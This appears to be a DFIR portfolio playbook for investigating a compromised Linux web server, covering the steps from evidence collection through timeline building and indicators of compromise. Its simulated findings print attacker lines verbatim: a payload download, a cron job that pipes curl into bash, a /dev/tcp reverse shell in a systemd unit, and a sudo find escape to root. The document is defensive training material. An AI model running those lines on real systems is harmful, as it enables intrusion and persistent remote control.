

# Project 14 — Linux Intrusion Investigation (Playbook)

**Status:** 🟢 Incident-response **playbook / runbook** — a repeatable procedure for a compromised Linux server. No seized image here; the commands are real and runnable, and the example findings are a simulated walkthrough (marked *(sim)*) that you replace with output from a real case.
**Track:** DFIR

## Objective
Give a responder a **step-by-step playbook** to investigate a compromised Linux web server end to end: confirm the intrusion, find the initial access (web shell through a vulnerable app), trace privilege escalation, enumerate every persistence mechanism, build a timeline, and produce an IOC list — then hand off clean, actionable detections.

## How to use this document
This is a **runbook**, not a case report. Each stage has:
- **Goal** — what you are trying to answer.
- **Commands** — exactly what to run (copy-paste ready).
- **What to look for** — the signal that matters.
- **Example *(sim)*** — an illustrative finding so you can see the shape of the answer.

Work top to bottom on a live incident; jump to a stage when you already have a lead.

## Scenario (reference case for the examples)
A public-facing PHP web app on an Ubuntu server was exploited via an unrestricted file-upload flaw. The attacker dropped a **web shell**, used it to run commands as `www-data`, escalated to **root** through a sudo/SUID misconfiguration, and established **three** persistence footholds (cron, a systemd service, and an SSH `authorized_keys` entry). All example data below describes *this* scenario.



## Environment
| Item | Value |
|---|---|
| Playbook ID | `CB-14-PLAYBOOK` |
| Target profile | Ubuntu 22.04 LTS, Apache2 + PHP, OpenSSH, auditd optional |
| Responder host | SIFT Workstation / any Linux analysis box |
| Collection | UAC (Unix-like Artifacts Collector), then offline analysis |
| Time zone | Keep everything in **UTC**; `date` on the host tells you its local offset |

---

## Stage 0 — Rules of engagement (do this first)
**Goal:** preserve evidence and avoid tipping off the attacker.

- Decide **isolate vs. observe**. Pulling the box loses volatile data (memory, live connections); isolating the network segment is usually the balanced choice.
- **Do not reboot** and do not start "cleaning up" — you destroy timeline and persistence evidence.
- Capture volatile state **before** touching disk-heavy tools:
```bash
# Volatile first — live connections, processes, logged-in users, mounts
ss -tunap            > /evidence/live_netstat.txt     # listeners + established + PID
ps auxww             > /evidence/live_ps.txt
w; who -a            > /evidence/live_sessions.txt
lsof -n -P           > /evidence/live_lsof.txt
date -u; uptime      > /evidence/live_time.txt
```
> Memory capture (AVML / LiME) belongs here too if you have authority and a place to store it — a web shell often lives only in a running PHP process.

## Stage 1 — Triage collection with UAC
**Goal:** grab all the artefacts once, consistently, so analysis happens offline on your box (not on the victim).

```bash
# UAC collects logs, bash history, cron, systemd units, SSH keys, web dirs,
# package DB, persistence locations, and a timeline — into one archive.
sudo ./uac -p full /evidence/uac_out
# or a faster IR profile:
sudo ./uac -p ir_triage /evidence/uac_out

# Hash the output immediately (chain of custody)
sha256sum /evidence/uac_out/*.tar.gz > /evidence/uac_out/SHA256SUMS
```
Everything from here analyses the **collected copy**. On a real image instead of a live box, mount read-only (`mount -o ro,noexec,nodev`) and point the same commands at the mount.

## Stage 2 — Find initial access in the web logs
**Goal:** identify the exploited request and the web shell.

```bash
cd /evidence/uac_out/[root]/var/log/apache2    # or nginx

# 1) Find the upload / exploit request and anything POSTing to odd paths
grep -E "POST .*(upload|\.php)" access.log* | less

# 2) Requests to files that should not exist (the web shell being used)
grep -E "\.php" access.log* | grep -vE "index\.php|login\.php" | \
  awk '{print $7}' | sort | uniq -c | sort -rn | head

# 3) Everything one suspicious IP did, in order
grep "203.0.113.47" access.log* | sort
```
**What to look for:** a successful `POST` (HTTP 200/302) to an upload endpoint, immediately followed by `GET`/`POST` requests to a new `.php` file in an uploads/writable directory, from the **same source IP**, often with a `cmd=`/`c=` query string and a non-browser `User-Agent` (curl, python-requests).

**Example *(sim)***
```
203.0.113.47 - - [12/Oct/2025:21:58:11 +0000] "POST /app/upload.php HTTP/1.1" 200 1455 "-" "python-requests/2.31"
203.0.113.47 - - [12/Oct/2025:21:58:19 +0000] "GET /uploads/img_9931.php?cmd=id HTTP/1.1" 200 54 "-" "curl/8.1"
203.0.113.47 - - [12/Oct/2025:21:58:44 +0000] "GET /uploads/img_9931.php?cmd=whoami HTTP/1.1" 200 9 "-" "curl/8.1"
```
→ Initial access = unrestricted upload (**T1190**); web shell = `/var/www/html/uploads/img_9931.php` (**T1505.003**).

Confirm the dropped file and read it (safely — never execute):
```bash
find /evidence/uac_out -path "*uploads*" -name "*.php" -printf "%T+ %p\n"
strings "/evidence/.../uploads/img_9931.php" | grep -iE "system|exec|passthru|eval|base64_decode"
```

## Stage 3 — What the attacker did as `www-data`
**Goal:** reconstruct post-exploitation commands.

```bash
# Shell history for the web user and any service accounts
cat /evidence/uac_out/[root]/var/www/.bash_history 2>/dev/null
find /evidence/uac_out -name ".bash_history" -exec sh -c 'echo "== $1 =="; cat "$1"' _ {} \;

# Files written around the exploit time (±5 min) across the web root
find /evidence/uac_out/[root]/var/www -newermt "2025-10-12 21:55" ! -newermt "2025-10-12 22:10" -printf "%T+ %p\n" | sort
```
**What to look for:** downloads (`wget`/`curl` to a staging IP), enumeration (`uname -a`, `sudo -l`, `find / -perm -4000`), and the pivot to root.

**Example *(sim)***
```
www-data$ wget http://198.51.100.9/lpe.sh -O /tmp/.lpe.sh
www-data$ find / -perm -4000 -type f 2>/dev/null
www-data$ sudo -l            # (NOPASSWD entry discovered)
```

## Stage 4 — Privilege escalation
**Goal:** prove how `www-data` became root.

```bash
# sudo rights the web user should never have
cat /evidence/uac_out/[root]/etc/sudoers /evidence/uac_out/[root]/etc/sudoers.d/* 2>/dev/null

# SUID binaries (GTFOBins candidates)
find /evidence/uac_out/[root] -perm -4000 -type f -printf "%M %u %p\n" 2>/dev/null

# auth + sudo usage
grep -E "sudo:|COMMAND=" /evidence/uac_out/[root]/var/log/auth.log*
```
**What to look for:** a `NOPASSWD` entry for a binary with a known escape (e.g. `find`, `vim`, `tar`, `env`), or a non-standard SUID binary. Correlate the `sudo ... COMMAND=` line in `auth.log` with the history from Stage 3.

**Example *(sim)***
```
/etc/sudoers.d/webapp:  www-data ALL=(root) NOPASSWD: /usr/bin/find
auth.log: www-data : COMMAND=/usr/bin/find . -exec /bin/sh \; -quit
```
→ Privilege escalation via a `NOPASSWD` sudo rule on `find` (GTFOBins) → root shell. (**T1548.003 Sudo and Sudo Caching**)

## Stage 5 — Enumerate persistence (check every mechanism)
**Goal:** find **all** footholds — attackers plant more than one.

```bash
# 5a. Cron (system + per-user + drop-in dirs)
cat /evidence/uac_out/[root]/etc/crontab
ls -la /evidence/uac_out/[root]/etc/cron.*  /evidence/uac_out/[root]/var/spool/cron/crontabs/*

# 5b. systemd services + timers (look for recently-created units)
find /evidence/uac_out/[root]/etc/systemd /evidence/uac_out/[root]/lib/systemd -name "*.service" -o -name "*.timer" | xargs ls -la
grep -rilE "ExecStart=.*(sh|bash|nc|python|/tmp/|curl)" /evidence/uac_out/[root]/etc/systemd

# 5c. SSH backdoor keys
find /evidence/uac_out -name "authorized_keys" -exec sh -c 'echo "== $1 =="; cat "$1"' _ {} \;

# 5d. New/modified accounts and shells
cat /evidence/uac_out/[root]/etc/passwd | awk -F: '$3>=1000 || $1=="root"'
grep -vE "nologin|false" /evidence/uac_out/[root]/etc/passwd   # accounts with a real shell

# 5e. Startup files, rc.local, profile.d, LD_PRELOAD tricks
cat /evidence/uac_out/[root]/etc/rc.local /evidence/uac_out/[root]/etc/ld.so.preload 2>/dev/null
ls -la /evidence/uac_out/[root]/etc/profile.d/
```
**What to look for:** a cron job or service that calls a reverse shell / fetches a payload; an `authorized_keys` entry you can't attribute to an admin; a new UID-0 account; anything under `/tmp` referenced by a persistence unit.

**Example *(sim)***
| Mechanism | Finding *(sim)* |
|---|---|
| Cron | `/etc/cron.d/apache-health`: `*/10 * * * * root curl -s http://198.51.100.9/b.sh | bash` |
| systemd | `/etc/systemd/system/netmon.service` → `ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/198.51.100.9/443 0>&1'` |
| SSH key | `/root/.ssh/authorized_keys` gains `ssh-ed25519 AAAA...C2 attacker@kali` |

## Stage 6 — Build the timeline
**Goal:** one ordered story that ties web logs, auth, filesystem and persistence together.

```bash
# Filesystem timeline (MAC times) with Sleuth Kit, from the image/mount
fls -r -m / /dev/mapper/evidence > bodyfile
mactime -b bodyfile -d -y > timeline.csv        # -y = ISO/UTC

# Or build a super timeline with Plaso
log2timeline.py --storage-file case.plaso /evidence/mount
psort.py -o l2tcsv -w timeline_plaso.csv case.plaso
```
Merge the Stage-2 web-log hits, Stage-4 `auth.log` sudo events, and Stage-5 persistence file births into `timeline.csv` and sort by time.

**Example correlated timeline *(sim)***
| Time (UTC) | Source | Event |
|---|---|---|
| 2025-10-12 21:58:11 | access.log | `POST /app/upload.php` 200 from 203.0.113.47 |
| 2025-10-12 21:58:19 | access.log | web shell `img_9931.php?cmd=id` executed |
| 2025-10-12 22:03 | filesystem | `/tmp/.lpe.sh` created |
| 2025-10-12 22:04 | auth.log | `www-data` runs `sudo find ...` → root |
| 2025-10-12 22:07 | filesystem | `netmon.service` + `cron.d/apache-health` written |
| 2025-10-12 22:09 | authorized_keys | attacker ed25519 key added to `/root/.ssh` |

## Stage 7 — IOCs and handoff
**Goal:** produce blockable, hunt-ready indicators.

| Type | Value *(sim)* | Note |
|---|---|---|
| IPv4 | `203.0.113.47` | Exploit + web-shell source |
| IPv4 | `198.51.100.9` | Payload staging + C2 (reverse shell :443) |
| File | `/var/www/html/uploads/img_9931.php` | Web shell (hash it: `sha256sum`) |
| File | `/tmp/.lpe.sh` | Privesc script |
| Persistence | `netmon.service`, `cron.d/apache-health`, root `authorized_keys` key | Remove all three |
| User-Agent | `python-requests/2.31`, `curl/8.1` to `.php` | Hunt string |

> RFC 5737 (`203.0.113.0/24`, `198.51.100.0/24`) documentation ranges are used so the playbook carries no real-looking indicators.

## Detection rules
Saved in [`queries/`](queries/):
- `webshell-access.yml` (Sigma) — requests to a `.php` in an uploads/writable dir with a `cmd=`/`c=` param or a CLI User-Agent.
- `linux-privesc-sudo.yml` (Sigma, auditd/auth) — `www-data` (or any service account) invoking `sudo`.
- `reverse-shell-systemd.yml` (Sigma, auditd) — a new `.service` whose `ExecStart` contains `/dev/tcp/`, `nc`, or a shell one-liner.

## Remediation checklist
- [ ] Isolate; snapshot/image for evidence before cleanup.
- [ ] Remove web shell, `/tmp` payloads, **all three** persistence items.
- [ ] Rotate every credential and SSH key on the host; audit `authorized_keys` on neighbours.
- [ ] Patch the upload flaw; set the uploads dir `noexec` and deny PHP execution there.
- [ ] Remove the bad `sudoers.d` entry; review SUID inventory.
- [ ] Rebuild from known-good if root persistence can't be fully ruled out.

## ATT&CK Mapping
- **T1190** Exploit Public-Facing Application — the upload flaw
- **T1505.003** Server Software Component: Web Shell
- **T1059.004** Command and Scripting Interpreter: Unix Shell
- **T1548.003** Abuse Elevation Control Mechanism: Sudo and Sudo Caching
- **T1053.003** Scheduled Task/Job: Cron
- **T1543.002** Create or Modify System Process: Systemd Service
- **T1098.004** Account Manipulation: SSH Authorized Keys
- **T1071 / T1571** C2 over common port (reverse shell :443)

## Deliverables
- [x] End-to-end Linux IR playbook (collect → initial access → privesc → persistence → timeline → IOC)
- [x] Copy-paste commands for UAC, log triage, SUID/sudo, persistence, Plaso/mactime
- [x] Attack-chain diagram
- [x] Sigma detection rules
- [ ] Run against a real compromised-Linux dataset and replace every *(sim)* value
- [ ] Final report in `report/`

## Key Learnings
1. **Volatile before disk** — a web shell may exist only in a running process; capture memory/connections first.
2. The web `access.log` usually holds the whole initial-access story: the exploit POST and the web-shell GETs from one IP.
3. Service accounts (`www-data`) should never run `sudo` — one `auth.log` line can prove the entire privilege escalation.
4. Persistence is plural: always check cron **and** systemd **and** SSH keys **and** accounts — clearing one leaves the others.
5. A single UTC timeline that merges logs, filesystem and persistence turns scattered artefacts into a defensible narrative.
